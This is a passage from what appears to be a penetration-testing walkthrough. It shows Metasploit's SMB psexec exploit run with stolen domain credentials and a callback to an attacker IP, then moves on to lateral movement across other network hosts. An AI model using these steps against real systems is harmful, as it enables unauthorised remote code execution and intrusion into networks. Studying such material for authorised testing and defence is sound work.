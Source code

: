 Now that we have the necessary credentials and hashes, we use **Metasploit** to execute the **psexec** exploit via SMB. This allows us to run commands on the target machine remotely.

```bash
msfconsole
use exploit/windows/smb/psexec
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set rhosts <target_ip>
set lhost <attacker_ip>
run
```

![msfconsole exploit](./images/image-64.png)

---

### **Trying Different Targets**

If the current target does not yield the expected results, we switch to other machines on the network. Lateral movement is a key part of penetration testing and real-world attacks.

![different targets](./images/image-65.png)

---